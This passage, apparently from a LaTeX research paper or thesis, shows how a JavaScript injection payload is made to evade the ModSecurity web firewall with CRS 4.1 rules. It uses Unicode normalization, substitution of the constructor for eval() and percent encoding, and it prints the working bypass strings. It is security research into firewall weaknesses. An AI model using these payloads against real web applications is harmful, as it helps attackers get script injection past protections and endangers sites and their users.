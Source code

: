 the resulting payload bypasses the evaluated firewall.

In the proceeding of this section, only option 1.: percent encoding, will be used in following iterations of payload modification.

At this point, the payload is still depends on the Web server performing Unicode normalization. To avoid this dependency, attacker might try and enforce the normalization of the payload. Forced normalization can be achieved by passing the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
prompt`\uFE69{secret}`
\end{lstlisting}

as a string and an argument to the \verb|eval()| function. The call to the \verb|normalize()| function is appended to the payload string:

\begin{lstlisting}[style=basicStyle, language=Python]
eval('prompt`\uFE69{secret}`'.normalize('NFKC'))
\end{lstlisting}

The \verb|eval()| function will be used to evaluate the normalized payload string. Similar to the results stated under Section~\ref{sec:functionconstructorsingleeva}, the payload that is using the \verb|eval()| function is being blocked. In the next iteration, \verb|eval()| was substituted using the technique described under Section~\ref{sec:functionconstructor}. The obscured payload after this iteration:

\begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('prompt`\uFE69{secret}`'.normalize('NFKC'))()
\end{lstlisting}

bypasses CRS4.1 rules that try to prohibit payloads including the character sequence of \verb|eval(| but still matches on rule with id \verb|920540| and message: . Therefore, in the following iteration, the payload was percent encoded, again using the \verb|quote_plus()| python function, which returned: 

\begin{lstlisting}[style=basicStyle, language=Python]
%5B%5D.constructor.constructor%28%27prompt%60%EF%B9%A9%7Bsecret%7D%60%27.normalize%28%27NFKC%27%29%29%28%29
\end{lstlisting}

The percent encoded payload successfully bypasses the ModSecurity firewall using CRS4.1. If decoded on the Web server, it resolves into the targeted payload (the character U+FE69 is displayed by the regular \$ surrounded by whitespaces in this document):

\begin{lstlisting}[style=basicStyle, language=Python]
"[].constructor.constructor('prompt` $ {secret}`'.normalize('NFKC'))()"
\end{lstlisting}





